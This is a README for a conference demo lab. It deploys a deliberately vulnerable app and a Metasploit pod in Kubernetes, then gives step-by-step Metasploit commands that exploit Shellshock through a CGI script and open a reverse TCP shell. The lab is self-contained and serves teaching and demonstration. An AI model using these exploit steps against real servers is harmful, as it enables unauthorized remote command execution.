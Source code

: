 # CPX 2021 demo

<!-- vim-markdown-toc GFM -->

* [Requirements](#requirements)
* [Installation](#installation)
* [Demo](#demo)
* [Tips](#tips)

<!-- vim-markdown-toc -->
# Requirements

- [Helm3](https://helm.sh/)
- *Highly recommended*:][K9S](https://github.com/derailed/k9s)
- If you want to demo using the hard way: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/)

# Installation
> Make sure you are using Helm3 client
```bash
helm install --namespace vulnerable --create-namespace -f values.yaml vuln-app .
# Ignore the stdout printed by helm
```

# Demo

Run K9S, check the namespace 'vulnerable' and verify there are 2 pods running
there:

- metasploit-client: We will use this as the "attacker machine"
- vuln-app-cpx-helm-vulnerable: We will use this as the "victim machine"

Verify the vulnerable namespace has a LoadBalancer service which is has an
external-IP assigned. Write down this value as we will need it during the
attack phase. This will allow attacking the application even from outside the
K8S cluster.

Start a shell within the metasploit container and execute:
```bash
cd /usr/src/metasploit-framework
./msfconsole -r docker/msfconsole.rc -y $APP_HOME/config/database.yml
# The metasploit framework shall start...
```

Using the metasploit framework we will exploit the <i>apache_mod_cgi_bash_env_exec</i>:
```bash
search shellshock
# Locate the module with the name apache_mod_cgi_bash_env
use exploit/multi/http/apache_mod_cgi_bash_env_exec
# Check available options
show options
# Set RHOST to the external IP of the vuln-app-cpx-helm-vulnerable
set rhost <external-ip>
# You could also use the internal cluster IP since the metasploit pod has visibility of the vulnerable pod
set rport 80
set targeturi /cgi-bin/vulnerable
# Set the payload
set payload linux/x86/shell/reverse_tcp
# Check if target is vulnerable
check
# Exploit vulnerability
exploit
```

At this point you may get multiple sessions opened in background mode. List
them and use one of them to exploit the reverse tcp shell:
```bash
#List sessions
sessions
# Run interactive shell in session #1
sessions -i 1
# Start running commands
whoami
ls -la
```

# Tips

- Use K9S client to demonstrate interactively how to perform the attack, it
  will save sometime if you need to run kubectl all the time
